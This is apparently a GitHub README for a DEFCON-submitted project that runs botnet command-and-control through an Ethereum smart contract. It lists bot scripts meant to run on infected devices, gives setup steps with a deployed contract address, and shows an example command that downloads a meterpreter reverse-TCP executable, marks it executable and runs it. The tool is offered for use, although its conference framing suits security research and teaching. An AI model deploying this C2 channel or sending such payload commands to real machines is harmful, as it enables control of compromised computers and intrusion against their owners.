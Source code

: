 # DAPPin that A$$ | A Blockchain Enabled C2 Solution


A C2 solution that lives in the blockchain as a DAPP.

Core Contents:
* [SpectralCommandRelay.sol](SpectralCommandRelay.sol): Smart Contract that can be deployed to the blockchain to act as a C2 channel
* [bot_deployer.py](bot_deployer.py): Script that generates & manages a local botnet
* [bot_minimal.py](bot_minimal.py): An incredibly simple endpoint for our C2 blockchain solution to be run on infected devices
* [bot.py](bot.py): Template for a more advanced endpoint for our C2 blockchain solution to be run on infected devices

Demo Contents:
* [SCR_Demo_Meter.rc](SCR_Demo_Meter.rc): MSFConsole init script used in our local botnet demo
* [cleanup.sh](cleanup.sh): Script to cleanup any lingering meterpreter sessions after our demo

Presentation Contents
* [DAPPin_that_A$$_DEFCON_Submission_BlockchainC2.pptx](DAPPin_that_A$$_DEFCON_Submission_BlockchainC2.pptx): The powerpoint we sent to the DEFCON Talks Panel



# How to Play

* Get setup with a web3 wallet, the [Metamask](https://chrome.google.com/webstore/detail/metamask/nkbihfbeogaeaoehlefnkodbefgpgknn) chrome plugin is pretty quick and straight forward
* Grab [SpectralCommandRelay.sol](SpectralCommandRelay.sol) and paste it into [https://remix.ethereum.org/](https://remix.ethereum.org/).
* Compile our .sol script
* Switch your web3 provider to "Injected Web3" and set your network to the "Rinkeby" testchain.
* Either deploy an instance of the relay or "Load at address" 0x69429FB223b3BA3D5823B980E590bF857a680c13
* Grab some [scratch on rinkeby](https://faucet.rinkeby.io/) and start sending commands

An Example command that installs and runs a meterpreter shell on an infected device which is running our [bot_minimal.py](bot_minimal.py) script
```
0~wget https://github.com/Cooperw/meterpreter_executables/raw/main/linux_x64_meterpreter_reverse_tcp_local_4444.elf; chmod +x linux_x64_meterpreter_reverse_tcp_local_4444.elf; ./linux_x64_meterpreter_reverse_tcp_local_4444.elf
```
